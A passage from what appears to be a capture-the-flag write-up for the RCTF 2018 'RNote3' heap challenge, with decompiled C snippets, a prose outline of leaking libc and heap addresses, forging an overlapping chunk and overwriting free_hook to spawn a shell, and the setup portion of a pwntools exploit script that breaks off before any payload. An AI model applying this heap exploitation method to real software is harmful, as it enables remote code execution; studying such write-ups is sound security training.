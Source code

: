 ```c
    free(selected_note);
    notes[i] = 0LL;
  }
  else
  {
    puts("not a valid title");
  }
  return __readfsqword(0x28u) ^ canary;
}
```

```c
struct note
{
  char title[8];
  __int64 size;
  char *content;
};
```

### Exploitation

Using the newly found vulnerability we were able to both leak libc and heap addresses usign the unsorted chunk fd and bk pointers which are saved on the heap after a call to free().
Libc was provided so it was easy to calculate offsets to system() function. Once we got a heap address we were able to craft a fake big chunk inside the double linked list of 
unsorted ones to make it overlap existing note structures, change their "content" pointer and gain arbitrary write.The final step is trivial, we overwrite free_hook(), we put a "/bin/sh\x00" 
string inside a note content, we free such note.

### Final exploit with some comments

```python
from pwn import *
from time import sleep
import sys
import os

# context.log_level = "debug"

host = 'localhost'
port = 4000

host_remote = "rnote3.2018.teamrois.cn"
port_remote = 7322

binary_path = './RNote3'
libc_path = './libc.so.6'

start_gdb = False
gdb_cmds = """
source /home/marcof/peda/peda.py
# sbp 0xf5b
# sbp 0xfe2
b system
c
"""

if libc_path is not None:
        libc = ELF(libc_path)
if binary_path is not None:
        elf = ELF(binary_path)

mode = sys.argv[1] if len(sys.argv) > 1 else ''
```